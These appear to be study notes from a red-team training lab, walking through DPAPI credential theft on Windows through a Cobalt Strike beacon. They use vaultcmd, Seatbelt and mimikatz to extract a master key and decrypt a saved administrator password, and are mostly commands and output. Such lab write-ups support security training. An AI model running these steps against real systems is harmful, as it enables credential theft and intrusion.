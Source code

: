 

*The way the Windows Credential Manager works is a bit confusing at first - if you read up on the subject, you'll find both the terms "Vaults" and "Credentials".  A "vault" essentially holds records of encrypted credentials and a reference to the encrypted blobs.  Windows has two vaults: Web Credentials (for storing browser credentials) and Windows Credentials (for storing credentials saved by mstsc, etc).  A "credential" is the actual encrypted credential blob.*


on `WKSTN-2` as `bfarmer` use `run vaulcmd /list` to identify `vaults`
```powershell
[12/04 23:52:46] beacon> run vaultcmd /list
[12/04 23:52:46] [*] Tasked beacon to run: vaultcmd /list
[12/04 23:52:46] [+] host called home, sent: 92 bytes
[12/04 23:52:46] [+] received output:
Currently loaded vaults:
	Vault: Web Credentials
	Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

	Vault: Windows Credentials
	Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault
```
`run vaultcmd /listcreds:"Windows Credentials" /all` to list the credentials
```powershell
[12/04 23:58:01] beacon> run vaultcmd /listcreds:"Windows Credentials" /all
[12/04 23:58:01] [*] Tasked beacon to run: vaultcmd /listcreds:"Windows Credentials" /all
[12/04 23:58:01] [+] host called home, sent: 124 bytes
[12/04 23:58:02] [+] received output:
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
Identity: SQL-2\Administrator
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```
another way to list credentials is `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault` 
```powershell
[12/05 00:00:50] beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
[12/05 00:00:57] [*] Tasked beacon to run .NET program: Seatbelt.exe WindowsVault
[12/05 00:00:57] [+] host called home, sent: 712016 bytes
[12/05 00:00:58] [+] received output:


                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v1.2.1         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 


====== WindowsVault ======


  Vault GUID     : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Vault Type     : Web Credentials
  Item count     : 0

  Vault GUID     : 77bc582b-f0a6-4e15-4e80-61736b6f3b29
  Vault Type     : Windows Credentials
  Item count     : 1
      SchemaGuid   : 3e0e35be-1b77-43e7-b873-aed901b6275b
      Resource     : String: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
      Identity     : String: SQL-2\Administrator
      PackageSid   : (null)
      Credential   : 
      LastModified : 9/6/2022 10:34:22 AM


[*] Completed collection in 0.022 seconds
```
to identify the name of the credentials navigate to `C:\users\bfarmer\AppData\Local\Microsoft\Credentials` this is the common location where these are stored
```powershell
[12/05 00:01:38] beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
[12/05 00:01:38] [*] Tasked beacon to list files in C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
[12/05 00:01:39] [+] host called home, sent: 130 bytes
[12/05 00:01:39] [*] Listing: C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 468b     fil     09/06/2022 10:34:22   6C33AC85D0C4DCEAB186B3B2E5B1AC7C
 10kb     fil     08/30/2022 08:42:59   DFBE70A7E5CC19A398EBF1B96859CE5D
```
seatbelt can also be used for the same thing `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles`
```powershell
[12/05 00:03:49] beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
[12/05 00:03:55] [*] Tasked beacon to run .NET program: Seatbelt.exe WindowsCredentialFiles
[12/05 00:03:55] [+] host called home, sent: 712036 bytes
[12/05 00:03:55] [+] received output:


                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v1.2.1         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 


====== WindowsCredentialFiles ======

  Folder : C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

    FileName     : 6C33AC85D0C4DCEAB186B3B2E5B1AC7C
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 12/5/2023 12:03:55 AM
    Modified     : 12/5/2023 12:03:55 AM
    Size         : 468

    FileName     : DFBE70A7E5CC19A398EBF1B96859CE5D
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 12/5/2023 12:03:55 AM
    Modified     : 12/5/2023 12:03:55 AM
    Size         : 11036
```
list directory for `ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\` to identify `SID` then look in the directory that exists for it.
- master keys are stored in the users roaming "Protect" Directory and are encrypted
```powershell
[12/05 00:07:46] beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\
[12/05 00:07:46] [*] Tasked beacon to list files in C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\
[12/05 00:07:46] [+] host called home, sent: 128 bytes
[12/05 00:07:47] [*] Listing: C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     09/25/2023 20:24:29   S-1-5-21-569305411-121244042-2357301523-1104
 24b      fil     08/15/2022 17:34:31   CREDHIST
 76b      fil     09/27/2023 15:46:27   SYNCHIST

```
So we must decrypt the master key first to obtain the actual AES128/256 encryption key, and then use that key to decrypt the credential blob.  There are two ways of doing this.
The first is only possible if you have local admin access on the machine and if the key is cached in LSASS.  It will not be in the cache if the user has not recently accessed/decrypted the credential.

with `SYSTEM` or `ADMIN` access can run `mimikatz !sekurlsa::dpapi`
- deleted all other instances because we know that the `GUID` matches the `masterkeys` from previous commands
```powershell
[12/05 00:11:52] beacon> mimikatz !sekurlsa::dpapi
[12/05 00:11:52] [*] Tasked beacon to run mimikatz's !sekurlsa::dpapi command
[12/05 00:11:52] [+] host called home, sent: 814415 bytes
[12/05 00:11:55] [+] received output:

Authentication Id : 0 ; 1619142 (00000000:0018b4c6)
Session           : RemoteInteractive from 2
User Name         : bfarmer
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 12/4/2023 6:39:25 PM
SID               : S-1-5-21-569305411-121244042-2357301523-1104

	 [00000001]
	 * GUID      :	{bfc5090d-22fe-4058-8953-47f6882f549e}
	 * Time      :	12/4/2023 10:21:30 PM
	 * MasterKey :	8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
	 * sha1(key) :	897f7bf129e6a898ff4e20e9789009d5385be1f3
```
without `SYSTEM` access can request `masterkeys` as long as its your own from the `dc`
`mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc`
```POWERSHELL
[12/05 00:14:04] beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc
[12/05 00:14:04] [*] Tasked beacon to run mimikatz's dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc command
[12/05 00:14:04] [+] host called home, sent: 814463 bytes
[12/05 00:14:20] [+] received output:

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
  sha1: 897f7bf129e6a898ff4e20e9789009d5385be1f3
```
once you have the 
Finally, the blob can be decrypted.


```powershell
[12/05 00:15:17] beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
[12/05 00:15:17] [*] Tasked beacon to run mimikatz's dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214 command
[12/05 00:15:18] [+] host called home, sent: 814458 bytes
[12/05 00:15:19] [+] received output:

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 9/6/2022 10:34:22 AM
  unkFlagsOrSize : 00000040 - 64
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : SQL-2\Administrator
  CredentialBlob : wIfY&cZ&d?QP9iMFEzckmj.34=@sg.*i
  Attributes     : 0
```